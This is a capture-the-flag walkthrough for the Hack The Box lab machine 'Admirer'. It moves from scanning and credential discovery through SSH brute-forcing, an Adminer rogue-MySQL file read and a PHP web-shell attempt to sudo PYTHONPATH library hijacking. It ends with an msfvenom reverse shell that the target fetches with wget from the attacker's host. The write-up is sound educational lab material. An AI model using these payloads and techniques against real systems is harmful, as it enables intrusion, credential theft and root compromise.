# [Admirer](https://app.hackthebox.eu/machines/248)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.187 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.187 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.187
# UDP quick scan
sudo nmap -v -sU -F --open -Pn -sV --version-intensity 0 10.10.10.187
```

The quick TCP scan returns the following:



Start with a scan of the website:

```bash
nikto -h http://10.10.10.187/ -C all --maxtime=120s --output=nikto.txt
```



Then browse to the site manually:

```bash
firefox http://10.10.10.187/
```


Site looks like a template. The HTML source helps confirm this:

```html
<!--
	Multiverse by HTML5 UP
	html5up.net | @ajlkn
	Free for personal and commercial use under the CCA 3.0 license (html5up.net/license)
-->
```

The `nikto` tool says there is a `robots.txt`. It has the following content:

```
User-agent: *

# This folder contains personal contacts and creds, so no one -not even robots- should see it - waldo
Disallow: /admin-dir
```

This matches the `nmap` output. Start a directory scanner looking for `txt` files:

```bash
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -q -z -o gobuster.txt -x txt \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -a 'Mozilla/5.0' \
  -u http://10.10.10.187/admin-dir/ &
```

While that runs, try connecting over FTP as `anonymous`:



No luck... The `gobuster` scan returns an interesting result:

```
/contacts.txt (Status: 200)
```

Browsing to it shows the following:

```
##########
# admins #
##########
# Penny
Email: p.wise@admirer.htb

##############
# developers #
##############
# Rajesh
Email: r.nayyar@admirer.htb

# Amy
Email: a.bialik@admirer.htb

# Leonard
Email: l.galecki@admirer.htb

#############
# designers #
#############
# Howard
Email: h.helberg@admirer.htb

# Bernadette
Email: b.rauch@admirer.htb
```

These could be usernames? Try a basic SSH bruteforce in the background: 

```bash
echo 'p.wise'    >> users.txt
echo 'r.nayyar'  >> users.txt
echo 'a.bialik'  >> users.txt
echo 'l.galecki' >> users.txt
echo 'h.helberg' >> users.txt
echo 'b.rauch'   >> users.txt
# install if not done already
sudo apt install seclists
# use a small wordlist because SSH takes a while...
cp /usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt . 
hydra -V -f -L users.txt -P 500-worst-passwords.txt ssh://10.10.10.187
```

Lol, while that was running, `gobuster` returns another result:

```
/credentials.txt (Status: 200)
```

Browsing to it shows the following:

```
[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
```

Out of the passwords given, the FTP one seems immediately usable. Connect over FTP and see what is there:



The `dump.sql` file is a text file with MySQL statements in it. Looking at the contents does not show any interesting values... Extracting the `html.tar.gz` does does some interesting things:

```bash
mkdir target
tar -xf html.tar.gz -C target
sudo apt install tree
tree target
```



It looks like backup of the website? The `utility-scripts` directory is interesting. Try connecting to `http://10.10.10.187/utility-scripts/admin_tasks.php`:



It looks like this folder is valid. Looking at `w4ld0s_s3cr3t_d1r` in the backup shows that it is not active on the target and has "similar" content to `/admin-dir` on the target. From here, an option to try is password re-use and try to get access over SSH using the passwords from `credentials.txt` and the possible usernames in `contacts.txt` from the target and the backup. However, first try to see if these PHP scripts have a vulnerability. The `admin_tasks.php` has the following content:

```HTML
<html>
<head>
  <title>Administrative Tasks</title>
</head>
<body>
  <h3>Admin Tasks Web Interface (v0.01 beta)</h3>
  <?php
  // Web Interface to the admin_tasks script
  //
  if(isset($_REQUEST['task']))
  {
    $task = $_REQUEST['task'];
    if($task == '1' || $task == '2' || $task == '3' || $task == '4' ||
       $task == '5' || $task == '6' || $task == '7')
    {
      /***********************************************************************************
         Available options:
           1) View system uptime
           2) View logged in users
           3) View crontab (current user only)
           4) Backup passwd file (not working)
           5) Backup shadow file (not working)
           6) Backup web data (not working)
           7) Backup database (not working)

           NOTE: Options 4-7 are currently NOT working because they need root privileges.
                 I'm leaving them in the valid tasks in case I figure out a way
                 to securely run code as root from a PHP page.
      ************************************************************************************/
      echo str_replace("\n", "<br />", shell_exec("/opt/scripts/admin_tasks.sh $task 2>&1"));
    }
    else
    {
      echo("Invalid task.");
    }
  }
  ?>

  <p>
  <h4>Select task:</p>
  <form method="POST">
    <select name="task">
      <option value=1>View system uptime</option>
      <option value=2>View logged in users</option>
      <option value=3>View crontab</option>
      <option value=4 disabled>Backup passwd file</option>
      <option value=5 disabled>Backup shadow file</option>
      <option value=6 disabled>Backup web data</option>
      <option value=7 disabled>Backup database</option>
    </select>
    <input type="submit">
  </form>
</body>
</html>
```

This page does not look immediately vulnerable to command injection since `$task` is filtered to a set of values... The directory `w4ld0s_s3cr3t_d1r` has some more credentials/usernames in it. Also, looking for `$password` shows some new possible passwords:

```bash
grep -r '$password' .
```



combine these new usernames/passwords and try to gain access:

```bash
# add new usernames to the previous file
echo 'waldo'     >> users.txt
echo 'waldo.11'  >> users.txt 
echo 'w.cooper'  >> users.txt
# make a new local password dump
echo 'fgJr6q#S\W:$P'           >> pass.txt
echo 'Ezy]m27}OREc$'           >> pass.txt
echo '%n?4Wz}R$tTF7'           >> pass.txt
echo 'w0rdpr3ss01!'            >> pass.txt
echo ']F7jLHw:*G>UPrTo}~A"d6b' >> pass.txt     
echo 'Wh3r3_1s_w4ld0?'         >> pass.txt
# try to login 
hydra -V -f -L users.txt -P pass.txt ssh://10.10.10.187
```

No luck... Since `utility-scripts/admin_tasks.php` exists on the target server, try enumerating for other files:

- Use a more targetd scan from [seclists](https://github.com/danielmiessler/SecLists)

```bash
sudo apt install seclists --upgrade
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -q -z -e -o gobuster.utility_scripts.txt \
   -w /usr/share/seclists/Discovery/Web-Content/quickhits.txt \
   -a 'Mozilla/5.0' \
   -u http://10.10.10.187/utility-scripts/ &
```

This returns a few interesting results (only showing HTTP 200):

```
http://10.10.10.187/utility-scripts//adminer.php (Status: 200)
http://10.10.10.187/utility-scripts//info.php (Status: 200)
```

`adminer.php` shows the following:



From the HTML dump gathered over FTP, the `index.php` has the following code:

```php
<?php
$servername = "localhost";
$username = "waldo";
$password = ']F7jLHw:*G>UPrTo}~A"d6b';
$dbname = "admirerdb";

// Create connection
$conn = new mysqli($servername, $username, $password, $dbname);
// Check connection
if ($conn->connect_error) {
  die("Connection failed: " . $conn->connect_error);
}

$sql = "SELECT * FROM items";
$result = $conn->query($sql);

if ($result->num_rows > 0) {
  // output data of each row
  while($row = $result->fetch_assoc()) {
    echo "<article class='thumb'>";
    echo "<a href='".$row["image_path"]."' class='image'></a>";
    echo "<h2>".$row["title"]."</h2>";
    echo "<p>".$row["text"]."</p>";
    echo "</article>";
  }
} else {
  echo "0 results";
}
$conn->close();
?>
```

Try the following known passwords from the scraped from files using the username `waldo` to connect to the database `admirerdb`:

```
fgJr6q#S\W:$P
Ezy]m27}OREc$
%n?4Wz}R$tTF7
w0rdpr3ss01!
]F7jLHw:*G>UPrTo}~A"d6b
Wh3r3_1s_w4ld0?
```

But this does not provide any wins... Since the version `4.6.2` is given on the page, try looking for an exploit?

```bash
searchsploit adminer
```



No luck... Try Google for `Adminer 4.6.2 exploit`? This actually gives an interesting result:

- https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool

The website claims a LFI by connecting to a controlled remote MySQL DB and running the following SQL:

```sql
LOAD DATA LOCAL INFILE '<filename>' INTO TABLE <tablename> FIELDS TERMINATED BY "\n";
```

This isn't too hard to test... First install and configure MariaDB on Kali if not already installed:

- **NOT** Check output of `sudo systemctl status mariadb` to see if installed
- https://computingforgeeks.com/how-to-install-mariadb-on-kali-linux/

---

If MySQL is already installed and need to reset the `root` password:

- https://tutorialforlinux.com/2020/02/19/kali-linux-2019-reset-mysql-mariadb-5-7-root-password/

```bash
systemctl stop mariadb
sudo mysqld_safe --skip-grant-tables --skip-networking &
mysql -u root 
```

Now run the following MySQL to reset the the `root` password:

```sql
UPDATE mysql.user SET authentication_string=PASSWORD('<password>'), plugin='mysql_native_password' WHERE User='root' AND Host='localhost';
FLUSH PRIVILEGES;
EXIT;
```

Then kill and restart MariaDB:

```bash
sudo pkill mysqld
ps ax | grep mysqld # make sure it is dead
systemctl start mariadb
```

---

Now start and connect to the Kali MySQL DB:

```bash
sudo systemctl start mariadb
mysql -u root -h localhost -p
```

Once able to connect to MariaDB as `root`, run the following to create a new database for the exploit and a user that can be used to login remotely:

- https://docs.bitnami.com/aws/infrastructure/mariadb/configuration/create-database/
- https://phoenixnap.com/kb/how-to-create-mariadb-user-grant-privileges

```sql
create database BUBBA_GUMP;
create table BUBBA_GUMP.data (data varchar(255));
grant all privileges on BUBBA_GUMP.* TO 'bubba'@'localhost' identified by 'gump';
grant all privileges on BUBBA_GUMP.* TO 'bubba'@'%' identified by 'gump';
flush privileges;
exit;
```

This creates a DB called `	BUBBA_GUMP` with a table called `data` that has a single column called `data` that sotres strings (`varchar`) of length 255. It also creates a user `bubba` with the password `gump` that can locally & remotely access the `	BUBBA_GUMP` DB and modify it. Now make the MySQL DB accessible remotely:

- https://webdock.io/en/docs/how-guides/how-enable-remote-access-your-mariadbmysql-database

```bash
sudo systemctl stop mariadb
sudo vim /etc/mysql/mariadb.conf.d/50-server.cnf # change bind-address to 0.0.0.0
sudo systemctl start mariadb 
```

Then add the following to `http://10.10.10.187/utility-scripts/adminer.php`:



This brings up the following:



Then select `SQL command` and try the following query to fetch the `index.php` assuming it is at `/var/www/html` by default. This is because the `index.php` had DB credentials in it from the HTML backup downloaded over FTP and maybe the one running on the target will too. If it is possible to connect to the target MySQL DB over the `adminer.php` page, then it may be possible to drop a web shell:

```sql
LOAD DATA LOCAL INFILE '/var/www/html/index.php' INTO TABLE data FIELDS TERMINATED BY "\n";
```

The query runs without errors! Now check the output on Kali:

```bash
mysql -u bubba -pgump -e "select * from BUBBA_GUMP.data;"
```

This returns the following:



Trying the credentials `waldo/&<h5b~yK3F#{PaPB&dA}{H>` to access `admirerdb` through `adminer.php` works! Try dropping a web shell with the following SQL:

```sql
SELECT '<?php echo shell_exec($_REQUEST["c"]); ?>' INTO OUTFILE '/var/www/html/bubba.php'
```

But this results in the following error:

```
Error in query (1045): Access denied for user 'waldo'@'localhost' (using password: YES) 
```

Try adding this new password to the list of credentials and try a bruteforce:

```bash
echo '&<h5b~yK3F#{PaPB&dA}{H>' >> pass.txt
# try to login 
hydra -V -f -L users.txt -P pass.txt ssh://10.10.10.187
```

And this results in a win!



Gaining access shows some interesting results for `user.txt`:

```bash
find / -iname user.txt -type f -exec ls -lad {} \; 2>/dev/null
```



Since the password is known, look at Sudo permissions:



This is interesting. `waldo` can run the comamnd `/opt/scripts/admin_tasks.sh` as any user (specified with the `(ALL)`) and preserve any environmental variables passed in (specified with `SETENV`):

- https://www.sudo.ws/man/sudo.man.html
- https://superuser.com/questions/636283/how-to-allow-user-to-preserve-environment-with-sudo

Looking at `/opt/scripts/admin_tasks.sh`, it has the following content:

```bash
#!/bin/bash

view_uptime()
{
    /usr/bin/uptime -p
}

view_users()
{
    /usr/bin/w
}

view_crontab()
{
    /usr/bin/crontab -l
}

backup_passwd()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Backing up /etc/passwd to /var/backups/passwd.bak..."
        /bin/cp /etc/passwd /var/backups/passwd.bak
        /bin/chown root:root /var/backups/passwd.bak
        /bin/chmod 600 /var/backups/passwd.bak
        echo "Done."
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_shadow()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Backing up /etc/shadow to /var/backups/shadow.bak..."
        /bin/cp /etc/shadow /var/backups/shadow.bak
        /bin/chown root:shadow /var/backups/shadow.bak
        /bin/chmod 600 /var/backups/shadow.bak
        echo "Done."
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_web()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running backup script in the background, it might take a while..."
        /opt/scripts/backup.py &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_db()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running mysqldump in the background, it may take a while..."
        #/usr/bin/mysqldump -u root admirerdb > /srv/ftp/dump.sql &
        /usr/bin/mysqldump -u root admirerdb > /var/backups/dump.sql &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}


# Non-interactive way, to be used by the web interface
if [ $# -eq 1 ]
then
    option=$1
    case $option in
        1) view_uptime ;;
        2) view_users ;;
        3) view_crontab ;;
        4) backup_passwd ;;
        5) backup_shadow ;;
        6) backup_web ;;
        7) backup_db ;;

        *) echo "Unknown option." >&2
    esac

    exit 0
fi


# Interactive way, to be called from the command line
options=("View system uptime"
         "View logged in users"
         "View crontab"
         "Backup passwd file"
         "Backup shadow file"
         "Backup web data"
         "Backup DB"
         "Quit")

echo
echo "[[[ System Administration Menu ]]]"
PS3="Choose an option: "
COLUMNS=11
select opt in "${options[@]}"; do
    case $REPLY in
        1) view_uptime ; break ;;
        2) view_users ; break ;;
        3) view_crontab ; break ;;
        4) backup_passwd ; break ;;
        5) backup_shadow ; break ;;
        6) backup_web ; break ;;
        7) backup_db ; break ;;
        8) echo "Bye!" ; break ;;

        *) echo "Unknown option." >&2
    esac
done

exit 0
```

Look through this script for the following vulnerabilities:

- https://developer.apple.com/library/archive/documentation/OpenSource/Conceptual/ShellScripting/ShellScriptSecurity/ShellScriptSecurity.html

It seems like the only vulnerability is being able to pass in an environmental variable as `waldo` to any executed program in the script as `root` through Sudo. Looking through the script, `/opt/scripts/backup.py` stands out with the following content:

```python
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

This content is not interesting, but a Google for `Environment Variables in Python` brings up the following:

- https://www.geeksforgeeks.org/environment-variables-in-python/

It seems like there are a few ways to abuse this:

- https://www.geeksforgeeks.org/pythonpath-environment-variable-in-python/
- https://docs.python.org/3/using/cmdline.html#envvar-PYTHONSTARTUP

Try abusing `PYTHONSTARTUP` and check the vulnerability:

```bash
cd /var/tmp
echo 'import os;os.system("echo $(id) > test.txt")' > test.py
sudo -E PYTHONSTARTUP=$(pwd)/test.py -u root /opt/scripts/admin_tasks.sh 6
```

But this did not work (no `test.txt` generated)... Try `PYTHONPATH`? Save the following in `/var/tmp/shutil.py` so that it can be called from `/opt/scripts/backup.py` without error:

```python
import os
def make_archive(dst, options, src):
  os.system("echo $(id) > test.txt")
```

Then trigger the call as follows:

```bash
cd /var/tmp
sudo -E PYTHONPATH=/var/tmp/ -u root /opt/scripts/admin_tasks.sh 6
```

And this generates `test.txt` with the following content:

```
uid=0(root) gid=0(root) groups=0(root)
```

Yse this to get a dedicated shell as `root`:

```bash
# run on kali
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         -f elf \
         -o bubba.elf
sudo python3 -m http.server 80
nc -nvlp 6969
# run on target
wget -O /var/tmp/bubba.elf 10.10.14.25/bubba.elf
chmod +x /var/tmp/bubba.elf
echo 'os.system("/var/tmp/bubba.elf")' >> /var/tmp/shutil.py
sudo -E PYTHONPATH=/var/tmp/ -u root /opt/scripts/admin_tasks.sh 6
```

And this returns a shell as `root`:



---

To cleanup MariaDB after this machine:

```bash
mysql -u root -h localhost -p
```

Then run the following MySQL:

```sql
show databases;
select host, user, password from mysql.user;
delete from mysql.user where user = 'bubba';
drop database BUBBA_GUMP;
show databases;
select host, user, password from mysql.user;
exit;
```

Now run the following:

```bash
sudo systemctl stop mariadb
sudo vim /etc/mysql/mariadb.conf.d/50-server.cnf # change bind-address to 127.0.0.1
sudo systemctl start mariadb 
```

